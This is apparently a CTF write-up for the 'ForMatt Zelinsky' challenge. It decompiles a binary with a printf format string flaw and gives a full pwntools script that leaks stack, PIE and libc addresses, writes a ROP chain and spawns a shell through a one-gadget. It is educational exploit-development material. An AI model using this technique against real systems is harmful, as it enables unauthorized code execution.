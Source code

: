 ## ForMatt Zelinsky (461 points)

### Description

Right? What? Wear? Pants? Built on Ubuntu 20.04.

### Gathering information

We can decompile the program with Ghidra. It extracts the following pseudo-c-
code:

```c  
int main(EVP_PKEY_CTX *param_1)

{  
 char buffer [336];  
  
 init(param_1);  
 puts("Oh no!! Full RELRO, PIE enabled, and no obvious buffer overflow.:(");  
 puts("Thankfully, I\'m generous and will grant you two leaks");  
 printf("This stack leak might be useful %p\n",buffer);  
 printf("And this PIE leak might be useful %p\n",main);  
 puts("Now gimme your payload");  
 fgets(buffer,0x150,stdin);  
 printf("Is this what you meant? ");  
 printf(buffer);  
 return 0;  
}  
```

As 0x150 = 336, there is no buffer overflow. But there is indeed a format
string vulnerability ([if you have no idea what this is, check this
link](https://www.youtube.com/watch?v=CyazDp-Kkr0)) as the program uses
`printf` on our input buffer without any check.

### Exploitation

The idea is the following: we can use the format string vulnerability to write
and execute a ropchain. Having this in mind, it's relatively simple to exploit
the vulnerability.

```python  
#!/usr/bin/env python3

from pwn import *

HOST = "challenges.ctfd.io"  
PORT = 30042

exe = ELF("./formatz")

context.binary = exe  
context.log_level = "debug"

def conn():  
   if args.LOCAL:  
       libc = ELF('/usr/lib/libc-2.33.so', checksec=False)  
       return process([exe.path])  
   else:  
       libc = ELF('./libc6_2.31-0ubuntu9.2_amd64.so', checksec=False)  
       return remote(HOST, PORT), libc

def exec_fmt(payload):  
   p = process([exe.path])  
   p.sendline(payload)  
   return p.recvall()

def main():

   # good luck pwning :)

   # Determine format string offset automatically (thx pwntools <3)  
   autofmt = FmtStr(exec_fmt)  
   offset = autofmt.offset  
log.info(f'Format string offset: {offset}')  
  
   io, libc = conn()

   buff_len = 0x150

   # --------------------------------------------------- #  
   # ------------------- leaking libc ------------------ #  
   # --------------------------------------------------- #  
  
   # Recieve the leaks  
   io.recvuntil('This stack leak might be useful ')  
   stack_leak = int(io.recvline()[2:-1], 16)  
log.info(f"stack @ {hex(stack_leak)}")  
   io.recvuntil('And this PIE leak might be useful ')  
   main_leak = int(io.recvline()[2:-1], 16)  
   exe.address = main_leak - exe.symbols['main']  
log.info(f"base address @ {hex(exe.address)}")  
  
   # The offset to RIP is calculated as following  
   rip = stack_leak + buff_len + 8 # 8 = RBP length!  
  
   # We make use of this useful gadget  
   pop_rdi = exe.address + 0x00000000000012bb # pop rdi; ret;

   # We now use the format string vulnerability to write and execute a
ropchain  
   # Overwrite EIP with whatever we want and use it to leak LIBC.  
   # In order to leak libc we execute puts with a function's GOT entry address
as an argument.  
   # This way puts will print out, as a string, the address of the function
inside libc.  
   #  
   # Notice that, after leaking LIBC base address, we return to main.  
   # This is done to make it simple to execute another ropchain from a clear
environment!  
   #  
   # Note: we use the function provided by pwntools because:  
   #    - I'm lazy  
   #    - It would be a hell of calculations to do this by hand  
   leak_func = 'setvbuf'  
   payload = fmtstr_payload(offset, {rip: pop_rdi, rip+8: exe.got[leak_func],
rip+16: exe.symbols['puts'], rip+24: exe.symbols['main']}, write_size='short')  
  
   # Send payload...  
   io.sendline(payload)

   # ...and recieve the leak  
   io.recvuntil('\x7f')  
   libc_leak = u64(io.recvuntil('\x7f').ljust(8, b'\x00'))  
log.info(f'{leak_func} @ {hex(libc_leak)}')  
  
   # Set the base address of libc, based on the leak  
   # Notice that the correct libc version was determined by leaking different
functions  
   # and using the online libc database https://libc.blukat.me/  
   libc.address = libc_leak - libc.symbols[leak_func]  
log.info(f'libc base @ {hex(libc.address)}')  
  
   # --------------------------------------------------- #  
   # ---------------- execve('/bin/sh') ---------------- #  
   # --------------------------------------------------- #  
  
   # Same as above, get leaks  
   io.recvuntil('This stack leak might be useful ')  
   stack_leak = int(io.recvline()[2:-1], 16)  
log.info(f"stack @ {hex(stack_leak)}")  
   io.recvuntil('And this PIE leak might be useful ')  
   main_leak = int(io.recvline()[2:-1], 16)  
   exe.address = main_leak - exe.symbols['main']  
log.info(f"base address @ {hex(exe.address)}")  
  
   # Re-calculate rip address  
   # The gadget positions stays the same (and we don't need it anyway)  
   rip = stack_leak + buff_len + 8  
  
   # Overwrite EIP with a onegadget that executes execve('/bin/sh', NULL,
NULL) under some constraint.  
   # A onegadget is basically a sequence of instructions in a certain libc
that makes the execve('/bin/sh', NULL, NULL) syscall.  
   # I don't usually check if the given constraints are respected, I just try
them.  
   #  
   # $ onegadget libc6_2.31-0ubuntu9.2_amd64.so  
   # 0xe6c7e execve("/bin/sh", r15, r12)  
   # constraints:  
   #   [r15] == NULL || r15 == NULL  
   #   [r12] == NULL || r12 == NULL  
   #  
   # 0xe6c81 execve("/bin/sh", r15, rdx)  
   # constraints:  
   #   [r15] == NULL || r15 == NULL  
   #   [rdx] == NULL || rdx == NULL  
   #  
   # 0xe6c84 execve("/bin/sh", rsi, rdx)  
   # constraints:  
   #   [rsi] == NULL || rsi == NULL  
   #   [rdx] == NULL || rdx == NULL  
  
   # Send the payload  
   onegadget = libc.address + 0xe6c81  
   payload = fmtstr_payload(offset, {rip: onegadget})  
   io.sendline(payload)

   # Profit  
   io.interactive()

if __name__ == "__main__":  
   main()

```

Notice that this exploit sometimes fails to execute for unknown reasons.

### The Flag

We can then `cat flag.txt` and get the flag: `UDCTF{write-what-wear-
pantz-660714392699745151725739719383302481806841115893230100153376}`

### Conclusions

I usually dislike format string vulnerabilities. They are tedious and, let me
say this, dumb. Even the compiler knows that you are doing something wrong and
gives you a warning if you attempt to compile something with a format string
vulnerability in it.

Nonetheless, I enjoyed this challenge a lot. Executing a ropchain via format
string was very funny and a good learning experience.
